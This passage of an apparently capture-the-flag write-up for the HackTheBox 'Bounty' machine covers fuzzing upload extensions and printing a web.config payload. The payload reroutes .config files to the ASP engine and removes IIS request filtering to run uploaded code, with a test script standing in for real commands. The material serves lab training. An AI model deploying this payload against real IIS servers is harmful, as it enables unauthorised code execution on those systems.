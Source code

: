 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2005:38:48.png)

We set as argument, the list_formats.txt

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2005:39:59.png)

And start to bruteforce it

When we see the responses from the server, we got that the `.config` is different than other. Possibliy being accept by the server.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2005:40:36.png)

# RCE

We search how to upload aspx files using config archives

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2005:41:46.png)

`https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/`

`https://soroush.secproject.com/blog/tag/unrestricted-file-upload/`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2005:42:35.png)

```config
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!-- ASP.NET code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```
